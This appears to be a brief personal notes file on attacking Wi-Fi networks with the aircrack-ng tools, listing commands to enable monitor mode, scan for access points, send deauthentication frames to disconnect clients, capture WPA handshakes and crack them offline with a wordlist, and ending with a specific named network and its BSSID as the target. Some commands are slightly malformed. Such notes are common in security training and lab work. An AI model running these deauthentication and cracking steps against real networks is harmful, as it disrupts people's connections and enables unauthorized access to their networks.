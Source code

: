 # Putting the interface in monitor mode
1. `airmon-ng check kill`
2. `airmon-ng start <interface>`

# Using airodump
* `airodump <interface>` will show probes, APs, etc.
* `--band a` flag required for 5GHz Networks
* Find the MAC of the specific network we want to target, note for later

# Deauthing
* `aireplay-ng -0 5 -a <BSSID> <interface>` to send 5 deauths to all clients at a given WAP
* can be more targeted by passing `-c <MAC>` to hit a certain client

# Capturing Handshakes
* configure airodump to save traffic to a pcap
* deauthing forces clients to reauthenticate
* we can capture that handshake and attack it offline
* `airodump <interface> --bssid <BSSID> -w capture <interface>`

# Cracking
* aircrack-ng -w `<wordlist> <capture>`

# GiacobeGigablast
* BSSID: `B8:27:EB:E3:52:C8`
